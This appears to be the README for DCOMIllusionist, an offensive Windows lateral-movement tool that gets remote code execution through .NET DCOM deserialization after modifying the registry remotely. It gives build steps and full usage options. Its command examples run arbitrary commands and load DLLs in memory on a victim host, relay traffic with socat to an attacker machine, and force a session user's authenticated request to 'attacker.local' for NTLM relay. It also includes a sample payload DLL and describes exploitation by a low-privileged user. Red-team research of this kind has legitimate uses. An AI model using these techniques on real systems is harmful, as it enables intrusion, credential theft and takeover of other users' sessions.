


<div align="center" style="font-size: 148px;">
  🎩✨🪄
</div>

<h1 align="center">
  DCOMIllusionist
</h1>

<p align="center">
   Windows fileless latteral movement technique.
</p>

<p align="center">
<a href="#introduction">Introduction</a> &nbsp;&bull;&nbsp;
<a href="#build">Build</a> &nbsp;&bull;&nbsp;
<a href="#usage">Usage</a> &nbsp;&bull;&nbsp;
<a href="#technical-details">Technical Details</a> &nbsp;&bull;&nbsp;
<a href="#acknowledgements">Acknowledgements</a>
</p>

<br />

# Introduction

This tool enables remote code execution on a Windows machine, if you have administrative privileges. It leverages DCOM and the behavior of .NET DCOM servers, which automatically deserialize incoming objects. This makes it possible to execute arbitrary commands or load DLLs without writing to disk.

Originally discovered by James Forshaw as a privilege escalation technique, this method was adapted for lateral movement by remotely modifying specific registry keys. Additionally, it supports cross-session exploitation through DCOM, allowing arbitrary commands to be executed within another user session under that session's security context.

It works on workstations and servers but network access between the target machine and an attacker-controlled machine is required for this technique to work.

More details in [this section](#technical-details).


# Build

A release is available, or you can build it manually:

```powershell
PS F:\> git clone https://github.com/Hug0Vincent/DCOMIllusionist.git
PS F:\> cd DCOMIllusionist
PS F:\DCOMIllusionist> dotnet publish -c Release -r win-x64

```

# Usage

```powershell
PS F:\> runas /u:LAB\adm /netonly powershell.exe
PS F:\> ./DCOMIllusionist.exe -t 10.10.10.10 --session 1 --curl http://attacker.local --attacker-sid <sid-adm>
```

> [!IMPORTANT]  
> Administrative access is required on both the attacking host (via an elevated shell) and the target machine to successfully use this tool. 

```
Usage:
  DCOMIllusionist.exe [options] -t <target> (--ps-exec | --exec | --curl | --file-write-src | --load-dll | --yso-b64 | --test-network | --list-sessions)

Options:
  -h, --help                        Show this help message and exit
  -d, --debug                       Enable debug logging
  -t, --target <value>              Set the target hostname or IP
  -p, --port <value>                Set the target port (Default: 49765)
      --clsid <value>               Specify a CLSID (no curly braces)
      --appid <value>               Specify an AppID (no curly braces)
  -s, --session <value>             Provide a session identifier
   -l --listen <host>               Specify listener FQDN or IP
  -g, --gadget <value>              Specify gadget to use
      --attacker-sid <value>        Set the attacker's SID
      --no-port-check               Disable port availability check
      --restore-backup <path>       Restore registry from backup
      --local-registry-only         Only performs local registry modifications
      --remote-registry-only        Only performs remote registry modifications
      --skip-local-registry-setup   Skip local registry setup
      --skip-remote-registry-setup  Skip remote registry setup
      --hku                         Perform remote registry operations on HKCU instead of HKLM
      --fake-clsid                  Create fake CLSID with fake AppId

Attacks:
      --ps-exec <args>              Execute a command remotely using PSExec
      --exec <cmd>                  Execute a command remotely
      --exec-args <args>            Args to pass to the command
      --curl <url>                  Use curl-style web request payload
      --file-write-src <src>        File to write
      --file-write-dst <dst>        Destination path
      --load-dll <path>             Load a DLL into the remote process
      --dll-class <value>           Class in the DLL to execute (including namespace)
      --dll-method <value>          Static Method in the class to execute (Default: Run)
      --yso-b64 <b64>               Execute base64-encoded ysoserial payload
      --test-network                Check network access from target to attacker machine
      --list-sessions               List interactive sessions on the target

Examples:
    DCOMIllusionist.exe --target 192.168.1.10 --exec "whoami"
    DCOMIllusionist.exe -t victim.local -p 1337 --listen other.attacker.local --load-dll "payload.dll" --dll-class "Exploit" --session 2

CLSID:
    BFFECCA7-4069-49F9-B5AB-7CCBB078ED91 - System.ServiceModel.Internal.TransactionBridge           (Default)
    2A7B042D-578A-4366-9A3D-154C0498458E - System.Management.Instrumentation.ManagedCommonProvider
    37708080-3519-4ED6-91D5-A64B643863FB - Windows.Help.Runtime.CatalogRead

AppId:
    577289B6-6E75-11DF-86F8-18A905160FE0 - Windows Push Notification Platform Connection Provider   (Default)
    63766597-1825-407D-8752-098F33846F46 - CentennialLifetimeManagerConsoleOperator
    06C792F8-6212-4F39-BF70-E8C0AC965C23 - User Account Control Settings                            (Interactive user)
    D4872B74-3AFC-47CD-B8A2-9E4F998539BC - Remote Cloud Store Factory                               (Interactive user)
```

## `--session`

As previously explained a session can be specified to execute arbitrary command in another users's session.

> [!WARNING]
> This only works with AppIDs configured to run under the interactive user's identity. This is handled automatically, there's no need to specify the `--appid` argument, as the tool will use the AppID associated with the *User Account Control Settings* by default.

> [!IMPORTANT]
> Only works if the attacking machine is joined to a domain, more details [here](#technical-details).

## `--list-sessions`

List remote interactive and active sessions on the target using `WTSEnumerateSessions`.

## `--listen`

If the target machine cannot directly reach the attacker's host, the exploit will fail. However, it is possible to specify an intermediate machine that the target can connect to. Using tools like socat, the traffic can then be relayed from this intermediary to the attacker's host.



- On the compromised machine:
```sh
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:attacker.local:135
$ socat -v TCP-LISTEN:1337,fork,reuseaddr TCP:attacker.local:1337
```

- On the attacker machine:
```powershell
PS F:\> ./DCOMIllusionist.exe -t victim.local -p 1337 --listen compromised.local --ps-exec whoami
```

## `--attacker-sid`

When running the exploit from a `runas /netonly` shell, the associated identity cannot be retrieved automatically. Therefore, it is necessary to explicitly provide it using the `--attacker-sid` option for the attack to succeed.

## `--exec`

`--exec` can be used with `--exec-args` to execute arbitrary binaries on the target:
```powershell
PS F:\> ./DCOMIllusionist.exe -t victim.local --exec powershell.exe --exec-args "-C calc"
```

> [!NOTE]
> `--ps-exec` is just a wrapper around that, the same can be achieved with: `--ps-exec calc`

## `--curl`

Curl can be useful in cross-session exploitation scenarios. If you have administrative privileges on a machine and, for example, a domain administrator is active in session 3, it is possible to initiate an authenticated HTTP request, purely through .NET, on behalf of that user. By directing this request to an attacker-controlled machine running `ntlmrelayx.py`, traditional NTLM relay attacks can be performed to compromise the user.

```
PS F:\> ./DCOMIllusionist.exe -t 10.10.10.10 --session 3 --curl http://attacker.local
```

## `--load-dll`

It is possible to load an arbitrary DLL entirely in-memory, without touching the disk. For instance:

```c#
// Build: csc /target:library /optimize /out:Payload.dll Payload.cs
using System.Diagnostics;

public class Payload
{
  public static void Run()
  {
    Process.Start("calc");
  }
}
```

```powershell
PS F:\> ./DCOMIllusionist.exe -t victim.local --load-dll Payload.dll --dll-class Payload
```

By default, the static `Run` method (with no parameters) of the specified class is executed. This behavior can be customized using the `--dll-method` parameter.

## `--yso-b64`

For advanced gadget generation, Ysoserial.net can be used. The resulting Base64-encoded payload can be supplied directly, it will be encapsulated within a RolePrincipal instance and deserialized on the target machine.

> [!WARNING]
> Only works with BinaryFormatter

## `--test-network`

Execute the same operations as the regular exploit, but send only a dummy payload to confirm that the target can connect to the attacker's machine.

## `--hku`

Everything can be exploited from a low privileged user by using `HKEY_USERS` instead of `HKLM` registry root key. This can be used if a user is member of `Performance Log Users` or `Distributed COM Users` group. In this case the `--attacker-sid` must be supplied to access the correct registry path. A writeable `CLSID` must also be supplied (see [`--fake-clsid`](#--fake-clsid)):

```powershell
PS F:\> ./DCOMIllusionist.exe --target victim.local --clsid 1f0dd70c-df30-4b47-8ac4-f72aba8bff24 --exec calc.exe --attacker-sid S-1-5-21-2090540823-3895734423-2628300701-1003 --hku --appid 900f081a-a69d-4a92-9f33-72c141feee9a
```

## `--fake-clsid`

Create a fake `CLSID` and `AppId`. Permissions are set on the `AppId` such as the current user or the `--attacker-sid` can then launch and activate the DCOM server. This is usefull when performing exploitation from a low privileged user on HKU.

```powershell
PS F:\> ./DCOMIllusionist.exe  --target victim.local --fake-clsid --attacker-sid S-1-5-21-2090540823-3895734423-2628300701-1003 --hku
[+] Creating fake CLSID
[+] New AppId: {900f081a-a69d-4a92-9f33-72c141feee9a}
[+] New CLSID: {1f0dd70c-df30-4b47-8ac4-f72aba8bff24}
```


# Technical Details

When a DCOM server written in .NET receives an object, it queries the `IManagedObject` DCOM interface. If the interface is present, the server invokes the `GetSerializedBuffer` method. The client responds with a serialized version of the object, which the server then deserializes, resulting in arbitrary code execution. For this to succeed, the victim machine must have direct network access to the attacker's host (see [`--listen`](#--listen)).



By forging arbitrary DCOM OBJREFs, it's possible to redirect the target machine to any remote system. For example, socat can be used to forward traffic on port 135 (and another arbitrary port) to the actual attacker-controlled machine. In James Forshaw's [proof of concept](https://project-zero.issues.chromium.org/issues/42451808), which later became the foundation for the "Potato" exploits, he used a the GUID of the `PointerMoniker` to marshal arbitrary objects in OBJREFs. This approach successfully triggered authentication but failed during the subsequent steps. By using the GUID of the standard marshaller instead, it becomes possible to create and send fully functional arbitrary OBJREFs.

However, no .NET DCOM servers are exposed by default on the Windows Server versions tested. To enable remote interaction, the Windows Registry can be modified remotely to associate a custom AppID with a .NET CLSID, making it accessible over DCOM. With careful selection of the AppID, it's also possible to enable cross-session exploitation, via the session moniker, if an interactive session is present on the target machine. This was again discovered and detailed by James Forshaw [here](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html) and [here](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html).

For the exploit to succeed, the target server must retrieve the serialized object data (the gadget) from the attacker-controlled machine. This requires the server to authenticate to the attacker's host.

If the AppID is not configured to run under the interactive user's identity, the authentication attempt will originate as *Anonymous*. To allow this, the attacker’s machine must be configured to accept anonymous DCOM authentication by modifying its default DCOM access permissions.

When the AppID is associated with the interactive user, the authentication is performed using the identity of the user in the specified session (via `--session`) or, by default, session 0. In this case, the attacker's machine must be domain-joined to accept the user's authentication. That's why the *Everyone* group is temporarily added to the default DCOM access permissions to enable successful authentication.

It's important to note that only the default access permissions are modified, launch and activation permissions remain unchanged. All changes are reverted once the operation completes. If something goes wrong, a backup of the original settings is created and can be restored.

> [!CAUTION]
> The attacker's machine is temporarily left in a more permissive state during the exploit, but all changes are reverted afterward.

# Acknowledgements

 - [@tiraniddo](https://x.com/tiraniddo) for the [original research](https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html), [this research](https://googleprojectzero.blogspot.com/2025/01/windows-bug-class-accessing-trapped-com.html) and for [oleviewdotnet](https://github.com/tyranid/oleviewdotnet), a lot of his code has been reused in public C# offensive tools, including this one.
 - [@nt0x4](https://twitter.com/nt0x4) for his work on the `TextFormattingRunProperties` gadget, he showed how to load arbitrary DLL in memory. This was reused for the `--curl` and `--file-write` attacks.
 - [@cube0x0](https://twitter.com/cube0x0) for [KrbRelay](https://github.com/cube0x0/KrbRelay)
 - [@pwntester](https://x.com/pwntester) for [Ysoserial.net](https://github.com/pwntester/ysoserial.net/)
 - [Dylan Tran](https://x.com/d_tranman) and [Jimmy Bayne](https://x.com/bohops) of IBM X-Force Red, took some inspiration in [ForsHops](https://github.com/xforcered/ForsHops).
